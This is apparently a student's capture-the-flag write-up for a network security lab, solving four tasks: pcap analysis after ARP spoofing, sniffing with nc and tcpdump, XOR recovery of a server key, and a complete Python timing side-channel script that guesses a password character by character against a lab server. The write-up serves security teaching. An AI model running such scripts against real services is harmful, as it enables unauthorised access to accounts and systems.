








# Author
Derek Xu 
# Question 1
We are given a .pcap file which can be read with packet viewers like Wireshark. After filtering for UDP and TCP packets, I found the following transmissions after what is allegedly an ARP spoofing attack.



The data shows that the secret phrase is 3C5211SS0f



# Question 2
For this flag, we were told that a broadcast gets sent out on port 5455 so I set packet sniffers looking for packets that were with source port 5455 on UDP and TCP protocols. I found that the following command gave me a transmission every hour.

`nc -l -u 5455 > out.txt &`



We see that the weather will be a SlushySt0rm. 

# Question 3
This flag started out with listening for traffic on the specified port (both ingoing and outgoing). With this, I was hoping to find some clues to what the key might be.

Using `tcpdump src port 5678 or dst port 5678 -w out.pcap`, I was able to listen to traffic in the background and let it run for a bit. After about an hour, using Wireshark or `tcpdump -X -r out.pcap`, I read the packets and found some of the following data:



The "gian.97dakls1560" kept repeating and I found out that it was a username + key being sent to the server at port 5678. So I tried the following using my own username and the weird string of letters I found.



With this, I figured out that to get the key, I would have to XOR the given key with my username in order to find the key used by the server. So using the following Python codee


```python
import base64

def xor(user, outputed_key):
    # base64 decode
    decoded_key = base64.b64decode(outputed_key)
    
    # encode user_bytes to be bytes
    user_bytes = user.encode()
    
    result = bytearray()
    for i in range(max(len(user_bytes), len(decoded_key))):
        result.append(user_bytes[i % len(user)] ^ decoded_key[i % len(decoded_key)])
    
    return result

user = "dxu0117"
outputed_key = "I0hFVHsBVUU="

result = xor(user, outputed_key)

print(result.decode())

```
We get "G00dJ0b!":



# Question 4
Question 4 involves essentially guessing a password checked by the password server at 1234. Instead of bruteforcing and attempting to listen to network traffic (which yielded nothing), I settled on using a timing side-channel attack.

The following code probes the server for every possible character, then if one of the character gives a response that takes longer than other characters, we can assume that that character is part of the password. We add on the "correct" letter to what we know and continue on until the password server finally tells us that our password is correct.

```python
import socket
import time
import string

def timing_attack():

    charset = ' ' + string.ascii_letters + string.digits + string.punctuation
    discovered_password = ""

    try:
    

        
        for i in range(20):
            best_char = None
            max_time = 0

            for char in charset:
                test_input = discovered_password + char

                time.sleep(0.5)

                try:
                    # create tcp connection

                    # get prompt message
                    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                    s.settimeout(15)


                    s.connect(('ec521network', 1234))
                    res = s.recv(1024).decode()

                    start_time = time.time()
                    s.sendall((test_input + "\n").encode())

                    res = s.recv(1024).decode()
                    end_time = time.time()

                    print(char, end_time - start_time)


                    if (end_time - start_time) > max_time:
                        # if we took longer with previouschar + character, then we know its right
                        max_time = end_time - start_time
                        best_char = char


                except Exception as e:
                    print(e)
                finally:
                    s.close()
                    
            
            discovered_password += best_char
            print("Password so far:", discovered_password)

            try:
                # res = s.recv(1024).decode()
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.settimeout(10)

                s.connect(('ec521network', 1234))
                res = s.recv(1024).decode()
                s.sendall((discovered_password + "\n").encode())
                res = s.recv(1024).decode()
                print(res)
                # check if correct
                if "Error" not in res:
                    print("Password Found:", discovered_password)
                    s.close()
                    return discovered_password
                
            except Exception as e:
                print(e)
            finally:
                s.close()
    except Exception as e:
        print(e)

    return discovered_password


print(timing_attack())
```

When using this script, I printed out the response timings of different characters to debug what was going on. I saw that the response for the "correct" letter came out a second longer.



Repeating this process, eventually the script came out with an answer "B3W4R30fTC" which was successful.

